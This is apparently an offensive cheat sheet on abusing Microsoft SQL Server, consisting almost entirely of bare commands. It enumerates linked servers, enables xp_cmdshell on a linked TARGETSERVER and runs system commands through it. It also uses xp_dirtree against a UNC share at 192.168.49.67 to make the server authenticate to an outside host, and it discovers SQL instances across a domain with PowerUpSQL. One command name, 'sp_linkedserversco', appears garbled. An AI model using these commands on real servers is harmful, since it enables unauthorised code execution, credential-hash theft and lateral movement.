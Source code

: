 # 🟢 Abusing SQL Server

### Using SQL Commands

```
EXEC sp_linkedserversco
```

```
select mylogin from openquery("TARGETSERVER", 'select SYSTEM_USER as mylogin')
```

```
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGETSERVER
```

```
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGETSERVER
```

```
EXEC ('xp_cmdshell ''whoami'' ') AT TARGETSERVER
```

```
EXEC master..xp_dirtree "\\192.168.49.67\share"
```

### Using PowerUpSQL

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft
```

